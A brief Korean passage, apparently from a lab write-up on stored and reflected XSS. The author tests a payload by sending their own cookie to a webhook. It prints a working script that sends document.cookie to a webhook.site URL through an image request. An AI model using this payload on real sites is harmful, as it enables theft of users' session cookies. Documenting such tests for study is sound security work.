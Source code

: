 **우선, 페이로드가 정상적으로 동작하는지 확인하기 위해 본인의 쿠키 값을 webhook을 통해 전송하는 테스트를 진행하였다.**

![xss4 payload](/assets/web-screenshots/stored-reflected-xss/xss4_payload.png)

```html
<SCRIPT>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="+document.cookie</SCRIPT>
```

위와 같이 페이로드를 작성한 후, 해당 URL에 직접 접근하여 스크립트 실행 여부를 확인하였다.
